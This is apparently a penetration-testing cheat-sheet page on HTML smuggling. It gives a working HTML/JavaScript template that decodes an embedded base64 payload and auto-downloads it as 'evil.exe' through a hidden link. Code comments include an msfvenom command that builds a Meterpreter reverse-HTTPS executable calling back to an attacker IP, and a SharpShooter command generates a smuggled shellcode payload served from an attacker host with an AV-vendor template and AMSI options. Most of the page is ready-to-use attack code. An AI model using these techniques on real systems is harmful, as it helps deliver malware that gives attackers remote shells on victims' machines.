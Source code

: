 # HTML Smuggling

* [https://github.com/nccgroup/demiguise](https://github.com/nccgroup/demiguise)

How-to:

1. Base64 code is placed into an array buffer, byte-by-byte.
2. The array buffer is placed into the binary blob.
3. A hidden `a` tag is created.
4. The data from the binary blob is moved to the href reference of the `a` tag.
5. The code from the binary blob is given the file name of `evil.exe`.
6. Finally, a click action is performed to download the file.

{% code title="smuggling.html" %}
```html
<html>
   <body>
      <script>
         function base64ToArrayBuffer(base64) {
             var binary_string = window.atob(base64);
             var len = binary_string.length;
             var bytes = new Uint8Array( len );
             for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
             return bytes.buffer;
         }
         // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f exe -o evil.exe
         // base64 -w0 evil.exe | xclip -i -sel clipboard
         var file ='<METERPRETER_BASE64_CONTENTS>'
         var data = base64ToArrayBuffer(file);
         var blob = new Blob([data], {type: 'octet/stream'});
         var fileName = 'evil.exe';
         var a = document.createElement('a');
         document.body.appendChild(a);
         a.style = 'display: none';
         var url = window.URL.createObjectURL(blob);
         a.href = url;
         a.download = fileName;
         a.click();
         window.URL.revokeObjectURL(url);
      </script>
   </body>
</html>
```
{% endcode %}

{% hint style="warning" %}
This page will work when browsed with Google Chrome (since it supports `window.URL.createObjectURL`). This technique must be modified to work against browsers like IE or Microsoft Edge.
{% endhint %}




## SharpShooter

* [https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/](https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/)
* [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

```
$ python SharpShooter.py --payload js --delivery web --output evil --web http://10.10.13.37/evil.js --shellcode --scfile evil.bin --smuggle --template mcafee --dotnetver 4 --amsi amsienable
```
